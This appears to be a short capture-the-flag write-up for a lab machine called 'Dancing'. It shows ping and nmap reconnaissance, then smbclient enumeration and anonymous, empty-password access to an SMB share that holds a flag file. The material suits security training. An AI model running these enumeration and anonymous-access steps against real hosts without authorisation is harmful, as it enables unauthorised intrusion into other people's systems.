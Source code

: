 # Dancing

---

## 10.129.56.234

---

## ping 10.129.56.234

```
PING 10.129.56.234 (10.129.56.234) 56(84) bytes of data.
64 bytes from 10.129.56.234: icmp_seq=1 ttl=127 time=149 ms
64 bytes from 10.129.56.234: icmp_seq=2 ttl=127 time=231 ms
^C
--- 10.129.56.234 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss
```

---

## sudo nmap -sV 10.129.56.234 -oX ./nmap/initial

```
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

---

## smbclient -L 10.129.56.234

```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
```

---

## smbclient \\\\10.129.56.234\\WorkShares

Password field can be left empty. And we have access to:

```
smb: \> ls
  .                                   D        0  Mon Mar 29 11:22:01 2021
  ..                                  D        0  Mon Mar 29 11:22:01 2021
  Amy.J                               D        0  Mon Mar 29 12:08:24 2021
  James.P                             D        0  Thu Jun  3 11:38:03 2021
```

In `Amy.J` we can find `worknotes.txt` and in `James.P` we can find `flag.txt`. And we are done.
